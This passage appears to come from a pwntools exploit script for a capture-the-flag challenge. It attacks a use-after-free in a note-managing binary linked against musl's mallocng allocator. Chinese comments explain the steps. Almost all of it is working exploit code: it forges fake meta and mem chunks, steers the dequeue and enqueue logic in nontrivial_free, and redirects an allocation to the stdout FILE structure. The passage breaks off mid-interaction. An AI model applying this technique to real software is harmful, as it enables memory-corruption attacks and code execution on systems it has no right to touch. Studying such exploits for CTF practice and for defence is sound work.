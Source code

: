     for i in range(3):
        find(b'4'*0x28,0x28)
    payload = p64(elf_base + 0x4c40) + p64(fake_mem_addr + 0x10) + p64(len(b'vulnerabl')) + p64(0x28) + p64(0)
    add('e'*0x58,0x58,payload,0x28)#覆盖UAF指针指向的manage chunk
    delete(b'vulnerabl',len('vulnerabl'))#释放UAF链表块，包括了释放fake_mem_addr + 0x10
    '''这一次释放是为了在stdout-0x18的地方写入fake_meta_addr + 0x30，
    目的是为了通过最后一次申请时get meta的校验'''
    #gdb.attach(io)
    
    ## enqueue
    last_idx, freeable, sc, maplen = 1, 0, 8, 0 #freeable置0是为了拒绝ok to free校验，防止释放meta
    fake_meta = p64(0)                              # prev
    fake_meta += p64(0)                             # next
    fake_meta += p64(fake_mem_addr)                 # mem
    fake_meta += p32(0) + p32(0)                    # avail_mask, freed_mask
    fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx)
    fake_meta += p64(0)
    fake_mem = p64(fake_meta_addr)                  # meta
    fake_mem += p32(1) + p32(0)
    payload = b'a' * 0xa90
    payload += p64(secret) + p64(0)
    payload += fake_meta + fake_mem + b'\n'
    find(payload,0x1200)


    for i in range(2):
        find(b'4'*0x28,0x28)
    payload = p64(elf_base + 0x4c50) + p64(fake_mem_addr + 0x10) + p64(len(b'vulnerabl')) + p64(0x28) + p64(0)
    add(b'e'*0x58,0x58,payload,0x28)
    delete(b'vulnerabl',len('vulnerabl'))
    #gdb.attach(io)
    '''这次释放的目的是为了将fake meta(在0x1200堆块处)释放到active数组中
    注意以上两次释放通过控制last idx实现了对释放过程中nontrivial_free的执行流控制
    也就是dequeue和queue'''


    last_idx, freeable, sc, maplen = 1, 0, 8, 0
    fake_meta = p64(fake_meta_addr)                 # prev
    fake_meta += p64(fake_meta_addr)                # next
    fake_meta += p64(stout - 0x10)                 # mem
    fake_meta += p32(1) + p32(0)                    # avail_mask, freed_mask
    fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx)
    fake_meta += b'a' * 0x18
    fake_meta += p64(stout - 0x10)
    payload = b'a' * 0xa80
    payload += p64(secret) + p64(0)
    payload += fake_meta + b'\n'
    find(payload,0x1200)
    '''直接覆盖fake meta，将mem改成io FILE指针,此时不需要释放所以不用管group'''

    io.sendlineafter('option: ', '1')
    io.sendlineafter('name size: ', str(0x28))
    io.sendafter('name: ', '\n')
    io.sendlineafter('note size: ', str(0x80))#sc为8
